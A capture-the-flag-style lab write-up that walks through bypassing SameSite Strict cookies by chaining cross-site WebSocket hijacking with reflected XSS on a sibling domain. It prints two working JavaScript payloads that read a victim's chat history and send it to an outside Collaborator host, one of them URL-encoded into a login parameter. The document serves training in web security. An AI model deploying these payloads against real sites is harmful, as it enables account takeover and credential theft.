 # Practitioner Lab 157: SameSite Strict bypass via sibling domain

---

This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.

To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

If you haven't done so already, we recommend completing our topic on WebSocket vulnerabilities before attempting this lab.

When the lab started I saw that when the websockets send a ready it then sends its whole history. But the chat knows who its talking to based on its cookie.

```
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

The site has SameSite Strict which means that it won’t transfer any cookies. 

![Untitled](Practitioner%20Lab%20157%20SameSite%20Strict%20bypass%20via%20si%207bb6d7208ecb42af9af7e533cc5cda2d/Untitled.png)

Based on this its only the start of a session. 

My next step is to see how I can make it SameSite so that it can send the cookie.

When looking at the response I saw this:

![Untitled](Practitioner%20Lab%20157%20SameSite%20Strict%20bypass%20via%20si%207bb6d7208ecb42af9af7e533cc5cda2d/Untitled%201.png)

I decided to visit the /resources/js/chat.js

![Untitled](Practitioner%20Lab%20157%20SameSite%20Strict%20bypass%20via%20si%207bb6d7208ecb42af9af7e533cc5cda2d/Untitled%202.png)

This allows another Origin.

which is another domain so I decided to visit it to see. 

![Untitled](Practitioner%20Lab%20157%20SameSite%20Strict%20bypass%20via%20si%207bb6d7208ecb42af9af7e533cc5cda2d/Untitled%203.png)

Its vulnerable to xss

![Untitled](Practitioner%20Lab%20157%20SameSite%20Strict%20bypass%20via%20si%207bb6d7208ecb42af9af7e533cc5cda2d/Untitled%204.png)

Now I need a way to include this into the query sting so my plan is to attempt this with a GET request to see if the site accepts it.

And it does. 

![Untitled](Practitioner%20Lab%20157%20SameSite%20Strict%20bypass%20via%20si%207bb6d7208ecb42af9af7e533cc5cda2d/Untitled%205.png)

I went into decoded and encoded the full csrf Payload I did above. 

Then I added it to the query string. 

![Untitled](Practitioner%20Lab%20157%20SameSite%20Strict%20bypass%20via%20si%207bb6d7208ecb42af9af7e533cc5cda2d/Untitled%206.png)

It worked. 

```
<script>
document.location="https://cms-0a47004004abda098275662c00390017.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%34%37%30%30%34%30%30%34%61%62%64%61%30%39%38%32%37%35%36%36%32%63%30%30%33%39%30%30%31%37%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%74%7a%77%79%33%63%68%37%6c%6f%34%66%33%75%6b%6d%73%75%79%76%32%62%38%35%67%77%6d%6e%61%6a%79%38%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=qwdqw";
</script>

```

This send it to my collaborator.

![Untitled](Practitioner%20Lab%20157%20SameSite%20Strict%20bypass%20via%20si%207bb6d7208ecb42af9af7e533cc5cda2d/Untitled%207.png)

Which results in me getting the information. 

This solved the lab after I was able to log in.